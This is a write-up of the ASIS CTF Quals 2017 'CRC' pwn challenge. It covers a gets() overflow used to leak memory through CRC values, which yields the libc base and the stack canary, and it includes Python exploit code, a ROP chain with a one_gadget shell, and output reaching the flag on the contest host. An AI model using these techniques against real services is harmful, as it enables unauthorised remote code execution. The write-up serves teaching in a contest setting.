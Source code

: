 # ASIS CTF Quals 2017 - pwn - CRC - 123 pts

> Description:
>
>    We have setup a fresh CRC generator service, but it's not hardened, so find the flag.
>    This service running on latest Ubuntu Xenial OS.

>    nc 69.90.132.40 4002
    
> Attachment: [crcme](crcme) [crchelper.c](crchelper.c) [xpl.py](xpl.py)
>

# Write-up

The CRC service asks us for a size and some data to process. It then generates a checksum for the specified string and prints it back. 

Quick check with checksec reveals:

```
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

Well, at least no PIE, but it's ovious, we'll have to leak some data to get around those restrictions. 

The function *get_userinput_number* contained an obvious buffer overflow, but it's guarded with a canary, so it won't be that easy to exploit.

```
int get_userinput_number() 
{
	gets(s);
	return atoi(s);
}
``` 

OK, we'll need some way to leak memory addresses in order to find LIBC and to read the canary. After that, it should be an easy task to use *get_userinput_number* to execute a rop chain.

Took an educated guess there, that the crc functionality should be abused to leak some data ;-)

And yep, another "buffer overflow" happened to arise when reading the data, that should be CRC'ed.


```
char s; 			// [sp+4h] [bp-84h]@1
char *ptrInput; 	// [sp+68h] [bp-20h]@1
[SNIP]
ptrInput = &s;
[SNIP]
gets(&s);
calcCrc(ptrInput, crcSize);
```

So, if everything goes right, ptrInput is pointing to the string, the user entered and gets used as the argument for the CRC function. But since it's directly behind the input string (s) itself and *gets* is used, we can overwrite the pointer with some arbitrary address. With this we're able to create a checksum for the data that's stored at any address. A step forward, but still, we will only get the CRC value for the data at this address. Thus, we need a method to reverse it in order to get the original value that's stored there.

To make this easier, we can pass a size of 1, so the CRC function will only calculate the checksum for one byte. We'll still need a way to reverse this but since we're now only considering one byte, there will be only 256 possible checksum values. This should be easy to brute force.

Ripped the CRC initialization method and the calculation method directly from the binary and created a short c script with it (see *crchelper.c*), which will generate a lookup table with the checksums for every possible byte.

Now we just have to call the CRC function for every byte in the address, we want to read and extract the returned checksum. The index of the checksum in our lookup table then represents the byte stored at the specified address. 

```python
CRCLOOKUP = [0xd202ef8d,0xa505df1b,0x3c0c8ea1,0x4b0bbe37,0xd56f2b94,0xa2681b02,0x3b614ab8,0x4c667a2e,0xdcd967bf,0xabde5729,0x32d70693,0x45d03605,0xdbb4a3a6,0xacb39330,0x35bac28a,0x42bdf21c,0xcfb5ffe9,0xb8b2cf7f,0x21bb9ec5,0x56bcae53,0xc8d83bf0,0xbfdf0b66,0x26d65adc,0x51d16a4a,0xc16e77db,0xb669474d,0x2f6016f7,0x58672661,0xc603b3c2,0xb1048354,0x280dd2ee,0x5f0ae278,0xe96ccf45,0x9e6bffd3,0x762ae69,0x70659eff,0xee010b5c,0x99063bca,0xf6a70,0x77085ae6,0xe7b74777,0x90b077e1,0x9b9265b,0x7ebe16cd,0xe0da836e,0x97ddb3f8,0xed4e242,0x79d3d2d4,0xf4dbdf21,0x83dcefb7,0x1ad5be0d,0x6dd28e9b,0xf3b61b38,0x84b12bae,0x1db87a14,0x6abf4a82,0xfa005713,0x8d076785,0x140e363f,0x630906a9,0xfd6d930a,0x8a6aa39c,0x1363f226,0x6464c2b0,0xa4deae1d,0xd3d99e8b,0x4ad0cf31,0x3dd7ffa7,0xa3b36a04,0xd4b45a92,0x4dbd0b28,0x3aba3bbe,0xaa05262f,0xdd0216b9,0x440b4703,0x330c7795,0xad68e236,0xda6fd2a0,0x4366831a,0x3461b38c,0xb969be79,0xce6e8eef,0x5767df55,0x2060efc3,0xbe047a60,0xc9034af6,0x500a1b4c,0x270d2bda,0xb7b2364b,0xc0b506dd,0x59bc5767,0x2ebb67f1,0xb0dff252,0xc7d8c2c4,0x5ed1937e,0x29d6a3e8,0x9fb08ed5,0xe8b7be43,0x71beeff9,0x6b9df6f,0x98dd4acc,0xefda7a5a,0x76d32be0,0x1d41b76,0x916b06e7,0xe66c3671,0x7f6567cb,0x862575d,0x9606c2fe,0xe101f268,0x7808a3d2,0xf0f9344,0x82079eb1,0xf500ae27,0x6c09ff9d,0x1b0ecf0b,0x856a5aa8,0xf26d6a3e,0x6b643b84,0x1c630b12,0x8cdc1683,0xfbdb2615,0x62d277af,0x15d54739,0x8bb1d29a,0xfcb6e20c,0x65bfb3b6,0x12b88320,0x3fba6cad,0x48bd5c3b,0xd1b40d81,0xa6b33d17,0x38d7a8b4,0x4fd09822,0xd6d9c998,0xa1def90e,0x3161e49f,0x4666d409,0xdf6f85b3,0xa868b525,0x360c2086,0x410b1010,0xd80241aa,0xaf05713c,0x220d7cc9,0x550a4c5f,0xcc031de5,0xbb042d73,0x2560b8d0,0x52678846,0xcb6ed9fc,0xbc69e96a,0x2cd6f4fb,0x5bd1c46d,0xc2d895d7,0xb5dfa541,0x2bbb30e2,0x5cbc0074,0xc5b551ce,0xb2b26158,0x4d44c65,0x73d37cf3,0xeada2d49,0x9ddd1ddf,0x3b9887c,0x74beb8ea,0xedb7e950,0x9ab0d9c6,0xa0fc457,0x7d08f4c1,0xe401a57b,0x930695ed,0xd62004e,0x7a6530d8,0xe36c6162,0x946b51f4,0x19635c01,0x6e646c97,0xf76d3d2d,0x806a0dbb,0x1e0e9818,0x6909a88e,0xf000f934,0x8707c9a2,0x17b8d433,0x60bfe4a5,0xf9b6b51f,0x8eb18589,0x10d5102a,0x67d220bc,0xfedb7106,0x89dc4190,0x49662d3d,0x3e611dab,0xa7684c11,0xd06f7c87,0x4e0be924,0x390cd9b2,0xa0058808,0xd702b89e,0x47bda50f,0x30ba9599,0xa9b3c423,0xdeb4f4b5,0x40d06116,0x37d75180,0xaede003a,0xd9d930ac,0x54d13d59,0x23d60dcf,0xbadf5c75,0xcdd86ce3,0x53bcf940,0x24bbc9d6,0xbdb2986c,0xcab5a8fa,0x5a0ab56b,0x2d0d85fd,0xb404d447,0xc303e4d1,0x5d677172,0x2a6041e4,0xb369105e,0xc46e20c8,0x72080df5,0x50f3d63,0x9c066cd9,0xeb015c4f,0x7565c9ec,0x262f97a,0x9b6ba8c0,0xec6c9856,0x7cd385c7,0xbd4b551,0x92dde4eb,0xe5dad47d,0x7bbe41de,0xcb97148,0x95b020f2,0xe2b71064,0x6fbf1d91,0x18b82d07,0x81b17cbd,0xf6b64c2b,0x68d2d988,0x1fd5e91e,0x86dcb8a4,0xf1db8832,0x616495a3,0x1663a535,0x8f6af48f,0xf86dc419,0x660951ba,0x110e612c,0x88073096,0xff000000]

def crc(size, payload):
	r.sendline("1")
	r.recvuntil("What is the length of your data:")
	r.sendline(str(size))
	r.recvuntil("process:")
	r.sendline(payload)

	r.recvuntil("CRC is: ")
	data = r.recvline()

	r.recvuntil("Choice:")	

	return data

def readAddress(address):
	result = 0

	for i in range(0, 4):
		payload = "A"*100
		payload += p32(address+i)

		crcByte = int(crc(1, payload), 16)
		orgByte = CRCLOOKUP.index(crcByte)

		result += orgByte << (i*8)
		
	return result
```

Armed with this, we can read some got entry and calculate the libc base address with it. With libc at hand, we'll have for one access to more rop gadgets, than we'll ever need and we can also leak *__environ* with it. Since it will be stored at a fixed offset to the canary, we can then calculate the position of the canary on the stack.

Having the address of the canary, we can just "de-crc" it the same way, and it should soon be game over for the service.

```python
EXITGOT = 0x08049fec

def exploit(r):
	r.recvuntil("Choice:")

	EXIT = readAddress(EXITGOT)	
	LIBC = EXIT - 0x2e7b0

	print ("[+] EXIT       : %s" % hex(EXIT))
	print ("[+] LIBC       : %s" % hex(LIBC))

	__ENV = LIBC + 0x001b1dbc

	ENVPTR = readAddress(__ENV)
	CANARYPTR = ENVPTR - 0xd0

	print ("[+] ENV        : %s" % hex(ENVPTR))
	print ("[+] Canary ptr : %s" % hex(CANARYPTR))

	CANARY = readAddress(CANARYPTR)

	print ("[+] Canary     : %s" % hex(CANARY))
```

```
python xpl.py 
[+] Opening connection to localhost on port 6666: Done
[7087]
[*] Paused (press any to continue)
[+] EXIT       : 0xf7e4c7b0
[+] LIBC       : 0xf7e1e000
[+] ENV        : 0xffffd32c
[+] Canary ptr : 0xffffd25c
[+] Canary     : 0xfe381000
```

Almost there... The buffer overflow in "get_userinput_function" should now be an easy victim. 

Used one_gadget to find a magic gadget in their libc to make things even easier.

```
$ one_gadget libc_32.so.6
0x3a819	execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the address of `rw-p` area of libc
  [esp+0x34] == NULL

0x5f065	execl("/bin/sh", eax)
constraints:
  esi is the address of `rw-p` area of libc
  eax == NULL

0x5f066	execl("/bin/sh", [esp])
constraints:
  esi is the address of `rw-p` area of libc
  [esp] == NULL
```

With this our final ropchain is:

```python
	ONEGADGET = LIBC + 0x5f065
	RWP = LIBC + 0x1b0000
	POP_ESI_EDI_EBP = 0x08048850
	XOREAX = LIBC + 0x0002c5fc
	
	payload = "C"*40
	payload += p32(CANARY)
	payload += "B"*12
	payload += p32(POP_ESI_EDI_EBP)
	payload += p32(RWP)
	payload += p32(0xdeadbeef)
	payload += p32(0xdeadbeef)
	payload += p32(XOREAX)
	payload += p32(ONEGADGET)

	r.sendline(payload)
	
	r.interactive()

	return
```

```c
$ python xpl.py 1
[+] Opening connection to 69.90.132.40 on port 4002: Done
[+] EXIT       : 0xf75dc7b0
[+] LIBC       : 0xf75ae000
[+] ENV        : 0xffd1cd3c
[+] Canary ptr : 0xffd1cc6c
[+] Canary     : 0xffa0db00
[+] ONEGADGET  : 0xf760d065
[*] Switching to interactive mode
 $ whoami
task2
$ cat /home/task2/flag.txt
**ASIS{db17755326b5df9dab92e18e43c3ee51}
```



